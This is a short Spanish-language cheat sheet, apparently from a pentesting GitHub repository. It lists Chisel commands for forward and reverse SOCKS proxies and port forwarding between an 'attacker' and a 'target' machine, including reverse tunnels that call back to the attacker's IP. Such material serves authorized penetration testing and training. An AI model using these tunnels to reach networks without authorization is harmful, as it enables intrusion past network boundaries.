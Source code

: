 # Chisel Cheat Sheet

## Forward Dynamic SOCKS Proxy

#### Ejecute servidor Chisel en el equipo destino.
```
chisel server --socks5 --port <PORT-CHISEL>
```

#### Ejecute cliente Chisel en el equipo atacante.
```
chisel client <TARGET-IP>:<PORT-CHISEL> <ATTACK-PORT>:socks
```

##### Modificar archivo /etc/proxychains..conf agregando:
```
...
socks5  127.0.0.1   <ATTACK-PORT>
```

## Reverse Dynamic SOCKS Proxy

#### Ejecute servidor Chisel en equipo atacante.
```
chisel server --reverse --port <PORT-CHISEL>
```

#### Ejecute cliente Chisel en el equipo destino.
```
chisel client <ATTACK-IP>:<PORT-CHISEL> R:1080:socks
```

##### Modificar archivo /etc/proxychains..conf agregando:
```
...
socks5  127.0.0.1   1080
```

## Reverse Port Forwarding

#### Ejecute servidor Chisel en equipo atacante.
```
chisel server --reverse --port <PORT-CHISEL>
```

#### Ejecute cliente Chisel en equipo destino.
```
chisel client <ATTACK-IP>:<PORT-CHISEL> R:<ATTACK-PORT>:127.0.0.1:<TARGET-PORT>
```

## Port Forwarding

#### Ejecutar servidor Chisel en equipo destino.
```
chisel server --port <PORT-CHISEL>
```

#### Ejecutar cliente Chisel en equipo atacante.
```
chisel client <TARGET-IP>:<PORT-CHISEL> <ATTACK-PORT>:<TARGET-IP>:<TARGET-PORT>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)